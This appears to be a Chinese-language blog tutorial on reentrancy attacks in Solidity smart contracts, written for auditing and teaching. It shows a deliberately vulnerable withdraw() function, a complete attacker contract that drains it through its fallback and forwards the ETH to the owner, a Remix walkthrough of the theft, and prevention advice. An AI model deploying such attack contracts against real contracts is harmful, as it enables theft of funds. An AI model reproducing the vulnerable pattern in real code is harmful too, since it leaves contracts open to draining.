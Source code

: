 ```yaml
---
layout: post_layout
title: 智能合约审计-重入攻击
time: 2020年1月8日 星期三
location: 合肥
pulished: true
excerpt_separator: "#"
---
```


描述：漏洞合约中某个函数中，使用call()方法发送eth,若eth的接收者为一个合约地址，则会触发该合约的fallback()函数。若该合约是攻击者的恶意合约，攻击者可以在fallback()函数中重新调用漏洞合约的上述函数，导致重入攻击

核心问题：重要的合约变量在“重入”的过程中没有被修改，从而绕过了限制

# Fallback函数

概念:
    回退函数，是合约里的特殊无名函数，有且仅有一个。它在合约调用没有匹配到函数签名，或者调用没有带任何数据时被自动调用。

触发场景：

- address.send(ether_to_send)
   
- address.call().value(ether_to_send)
    
# 漏洞流程
![重入漏洞](/assets/demo/chongru.png)
# 漏洞合约分析
```sol
pragma solidity ^0.4.24;

contract ReentrancyGame {

  mapping (address => uint) public credit; //credit表示存储用户的余额

  event Deposit(address _who, uint value);  //Deposit表示充值
  event Withdraw(address _who, uint value);
    
  function deposit() payable public returns (bool) {
    credit[msg.sender] += msg.value; //credit调用deposit()函数进行充值使用msg.value进行ETH发送
    emit Deposit(msg.sender, msg.value);
    return true;
  }
    
  function withdraw(uint amount) public returns (bool) { //withdraw提币函数
    if (credit[msg.sender]>= amount) {
      msg.sender.call.value(amount)();
      credit[msg.sender]-=amount;
      emit Withdraw(msg.sender, amount);
      return true;
    }
    return false;
  }  

  function creditOf(address to) public returns (uint) {
    return credit[to];
  }
}
```
漏洞点：从提币开始，首先校验credit是否大于amount(本次提现的ETH),然后使用call.value进行转账，然后再扣除余额。这里漏洞点就出在我们先使用call.value对用户进行转账，然后再减少余额。就是因为这种情况，攻击者可以反复进行withdraw(),在进入withdraw()之前，第一步的校验仍然有效，在进入withdraw()之后，credit(余额)并没有减少，第一步的校验仍然有效，攻击者才能源源不断的从合约中提取ETH

# 攻击者合约
```sol
pragma solidity ^0.4.24;

contract ReentrancyGame {

  mapping (address => uint) public credit;

  event Deposit(address _who, uint value);
  event Withdraw(address _who, uint value);
    
  function deposit() payable public returns (bool) {
    credit[msg.sender] += msg.value;
    emit Deposit(msg.sender, msg.value);
    return true;
  }
    
  function withdraw(uint amount) public returns (bool) {
    if (credit[msg.sender]>= amount) {
      msg.sender.call.value(amount)();
      credit[msg.sender]-=amount;
      emit Withdraw(msg.sender, amount);
      return true;
    }
    return false;
  }  

  function creditOf(address to) public returns (uint) {
    return credit[to];
  }
  
  function checkBalance() public constant returns (uint){
      return this.balance;
  }
}

contract ReentrancyAttack {   //调用attack()函数对漏洞合约进行远远不断的偷取ETH
  ReentrancyGame public regame;
  address owner;

  function ReentrancyAttack (ReentrancyGame addr) payable { 
    owner = msg.sender;
    regame = addr;
  }

  function attack() public returns (bool){
    regame.deposit.value(1)();
    regame.withdraw(1);
    return true;
  }
  
  function geteth() public returns (bool){ 
    owner.transfer(this.balance); 
    return true;
  }

  function checkBalance() public constant returns (uint){
      return this.balance;
  }

  function() public payable { 
    regame.withdraw(1); 
  }
}
```

----------
# 使用Remix进行调试
- 首先对合约进行编译（Current version设置为0.4X，Auto compile，Enable Optimization全部勾上。编译完成后会出现2个合约分别为ReentrancyAttack，ReentrancyGame）

- 首先部署ReentrancyGame(漏洞合约)，这里Account设置一个受害者账户(0xca3...a733c)，然后点击Deploy部署完成后漏洞合约，这里还是需要充值一定数量的ETH便于实验观察（Value设置为100 wei ETH点击deposit,然后点击checkBalance查看当前受害者地址为100 wei ETH，这里受害者合约ReentrancyGame就部署完成了）

- 攻击者合约部署ReentrancyAttack(攻击者合约)，由于漏洞合约地址在提现的时候需要一定的ETH，所以这里在设置ReentrancyAttack合约的时候需要设置Value为5 wei ETH，Deploy设置为ReetrancyGame合约地址（注：这里是合约地址并不是账户地址）Account换一个账户(0x147...c160c)点击Deploy即可部署攻击者合约，部署完成后点击checkBalance查看当前账户余额为5 wei ETH,说明攻击者合约部署完成了

- 漏洞攻击-点击ReentrancyAttack(攻击者合约)attack即可攻击。攻击的过程中由于一直通过withdraw()函数进行循环提现，过程有点缓慢，等gas消耗完毕既可以查看(checkBalance)攻击者合约账号余额为51 wei ETH,再次查看ReentrancyGame(漏洞合约)账户余额为54 wei ETH,漏洞利用成功
# 漏洞预防


1. 在将 Ether 发送给外部合约时使用内置的 transfer() 函数 。transfer转账功能只发送 2300 gas 不足以使目的地址/合约调用另一份合约（即重入发送合约）。

2. 引入互斥锁。也就是说，要添加一个在代码执行过程中锁定合约的状态变量，阻止重入调用。

3. 将任何对未知地址执行外部调用的代码，放置在本地化函数或代码执行中作为最后一个操作，是一种很好的做法。这被称为 检查效果交互（checks-effects-interactions） 模式。
